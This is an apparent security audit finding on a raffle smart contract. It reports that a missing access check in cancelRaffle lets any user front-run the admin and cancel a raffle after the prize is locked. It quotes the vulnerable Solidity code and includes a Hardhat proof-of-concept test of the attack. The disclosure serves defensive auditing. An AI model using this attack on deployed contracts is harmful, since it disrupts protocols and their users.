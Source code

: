 Damp Midnight Porpoise

High

# Cancel Raffle Front-Running/Access Control Attack

### Summary

A missing check in **cancelRaffle** allows a malicious user to cancel a raffle immediately after prize locking before the admin can create the raffle. This prevents the raffle from being created, causing potential loss of funds and disrupt the entire raffle process. This stems from the factthat the raffle creation is a two step process where first the prize is locked and then the owner creates the raffle.

### Root Cause

The root cause of this issue is the lack of proper access control and checks in the **cancelRaffle** function, which exposes a vulnerability where any user can cancel a raffle during a critical window between the prize being locked and the raffle being created. The **cancelRaffle** has external visibility. This function calls **_checkShouldCancel** function to check if raffle could be cancelled, which allows cancelling if the prize is locked. 

This is the cancelRaffle function:
`
    function cancelRaffle(address prizeManager, uint64 chainSelector, uint256 raffleId) external {
        _checkShouldCancel(raffleId);

        _raffles[raffleId].status = RaffleStatus.CANCELED;
        _sendCCIPMessage(
            prizeManager,
            chainSelector,
            abi.encodePacked(uint8(CCIPMessageType.RAFFLE_CANCELED), raffleId)
        );
        IWinnablesTicket(TICKETS_CONTRACT).refreshMetadata(raffleId);
    }
`

Which further calls the _checkShouldCancel function:

`
    function _checkShouldCancel(uint256 raffleId) internal view {
        Raffle storage raffle = _raffles[raffleId];
        if (raffle.status == RaffleStatus.PRIZE_LOCKED) return;
        if (raffle.status != RaffleStatus.IDLE) revert InvalidRaffle();
        if (raffle.endsAt > block.timestamp) revert RaffleIsStillOpen();
        uint256 supply = IWinnablesTicket(TICKETS_CONTRACT).supplyOf(raffleId);
        if (supply > raffle.minTicketsThreshold) revert TargetTicketsReached();
    }
`

This line allows cancelling if prize is locked:
`      if (raffle.status == RaffleStatus.PRIZE_LOCKED) return;`

### Internal pre-conditions

1. The prize is locked via _ccipReceive function (CCIP message).
2. The cancelRaffle function is external and accessible to all users.
3. There is a window of opportunity between prize locking and raffle creation.


### External pre-conditions

1. The attacker must front-run the admin's createRaffle transaction.
2. The attacker must know the prize ID to call cancelRaffle.

### Attack Path

The prize is locked via **_ccipReceive**.
The attacker calls **cancelRaffle** immediately after the prize is locked.
Admin attempts to call **createRaffle** but fails as the raffle is now invalid.

### Impact

The protocol suffers a 100% loss of funds and potential raffle proceeds. The attacker does not gain any funds from cancellation but succeeds in causing operational disruption and preventing raffle creation.

Example:

Admin intended to create a raffle with a prize
An attacker front-runs and cancels the raffle before it is created, making the prize go unused and causing operational delays.

### PoC

`
const { ethers } = require('hardhat');
const { expect } = require('chai');
const helpers = require('@nomicfoundation/hardhat-network-helpers');

const {
  getWalletWithEthers, blockTime, timeSeconds,
} = require('./common/utils');
const { ccipDeployTicketManager } = require('../utils/demo');
const { randomWord } = require('./common/chainlink');
const { whileImpersonating } = require('../utils/impersonate');
const { BigNumber } = require('ethers');

ethers.utils.Logger.setLogLevel(ethers.utils.Logger.levels.ERROR);

describe('CCIP Ticket Manager', () => {
  let ccipRouter;
  let link;
  let signers;
  let manager;
  let tickets;
  let approver;
  let winnablesDeployer;
  let nft;
  let token;
  let api;
  let snapshot;
  let counterpartContractAddress;
  let coordinator;
  let badReceiver;
  let goodReceiver;

  before(async () => {
    signers = await ethers.getSigners();
    const result = await ccipDeployTicketManager();
    approver = result.approver;
    winnablesDeployer = signers[0];
    link = result.link;
    manager = result.ticketManager;
    nft = result.nft;
    token = result.token;
    tickets = result.ticket;
    ccipRouter = result.ccipRouter;
    coordinator = result.coordinator;
    api = await getWalletWithEthers();
    await (await manager.setRole(api.address, 1, true)).wait();
    counterpartContractAddress = signers[1].address;
    const badReceiverFactory = await ethers.getContractFactory('ERC1155BadReceiver');
    const goodReceiverFactory = await ethers.getContractFactory('ERC1155Receiver');
    badReceiver = await badReceiverFactory.deploy();
    goodReceiver = await goodReceiverFactory.deploy();
  });

  describe('Frontrunning attack during raffle creation', function () {
    let admin, attacker;

    before(async () => {
        snapshot = await helpers.takeSnapshot();
        [admin, attacker] = await ethers.getSigners();
    });

    after(async () => {
        await snapshot.restore();
    });

    it('Lock prize via CCIP receive', async () => {
        await (await manager.setCCIPCounterpart(counterpartContractAddress, 1, true)).wait();

        // Mint LINK to the manager contract to handle VRF costs
        const mintAmount = ethers.utils.parseEther('10'); // Adjust the amount as necessary
        await (await link.mint(manager.address, mintAmount)).wait();

        const tx = await whileImpersonating(ccipRouter.address, ethers.provider, async (signer) =>
            manager.connect(signer).ccipReceive({
                messageId: ethers.constants.HashZero,
                sourceChainSelector: 1,
                sender: '0x' + counterpartContractAddress.slice(-40).padStart(64, '0'),
                data: '0x0000000000000000000000000000000000000000000000000000000000000001',
                destTokenAmounts: []
            })
        );

        const { events } = await tx.wait();
        expect(events).to.have.lengthOf(1);
        expect(events[0].event).to.eq('RafflePrizeLocked');
    });

    it('Frontrunning attack to cancel raffle before creation', async () => {
        const prizeId = 1;
        const raffleDetails = {
            start: (await blockTime()) + 10,
            end: (await blockTime()) + 3600,
            minTicketCount: 0,
            supplyCap: 500,
            maxHoldings: 100
        };

        // Lock the prize via CCIP receive again to ensure clarity
        await (await manager.setCCIPCounterpart(counterpartContractAddress, 1, true)).wait();

        // Start the CCIP lock process
        const ccipLockTx = await whileImpersonating(ccipRouter.address, ethers.provider, async (signer) =>
            manager.connect(signer).ccipReceive({
                messageId: ethers.constants.HashZero,
                sourceChainSelector: 1,
                sender: '0x' + counterpartContractAddress.slice(-40).padStart(64, '0'),
                data: '0x0000000000000000000000000000000000000000000000000000000000000001',
                destTokenAmounts: []
            })
        );

        await ccipLockTx.wait();

        // Attacker frontruns and cancels the raffle
        const cancelRaffleTx = await manager.connect(attacker).cancelRaffle(
            counterpartContractAddress,
            prizeId,
            1
        );

        await cancelRaffleTx.wait();

        // Attempt to create the raffle and expect it to fail
        await expect(
            manager.createRaffle(
                prizeId,
                raffleDetails.start,
                raffleDetails.end,
                raffleDetails.minTicketCount,
                raffleDetails.supplyCap,
                raffleDetails.maxHoldings
            )
        ).to.be.revertedWithCustomError(manager, 'PrizeNotLocked');
    });
});
});

`

### Mitigation

Don't allow external users to be able to cancel raffles when the prize is locked.